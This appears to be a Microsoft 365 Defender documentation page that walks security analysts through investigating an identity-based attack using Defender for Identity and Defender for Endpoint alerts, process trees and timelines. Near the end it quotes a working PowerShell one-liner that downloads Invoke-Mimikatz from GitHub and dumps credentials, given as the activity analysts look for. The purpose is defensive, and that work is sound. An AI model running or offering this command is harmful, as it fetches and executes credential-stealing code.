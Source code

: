 ```yaml
---
title: Example of an identity-based attack
description: Step through an example analysis of an identity-based attack.
keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365, incident response, cyber-attack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords: 
  - NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - M365-security-compliance
  - m365solution-firstincident
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.technology: m365d
---
```

# Example of an identity-based attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization. Because Defender for Identity integrates with Microsoft 365 Defender, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Analyzing the attack in Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection source on the **Alerts** tab of the incidents page. In the following example, the detection source is filtered to **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source in Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the **Suspected overpass-the-hash attack** alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) and remediation suggestions.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incident queue, then select the **Alerts** tab. From here, they can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here, the analyst selects an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Each process can be expanded to view more details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to distinguish is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Investigate incidents](investigate-incidents.md)
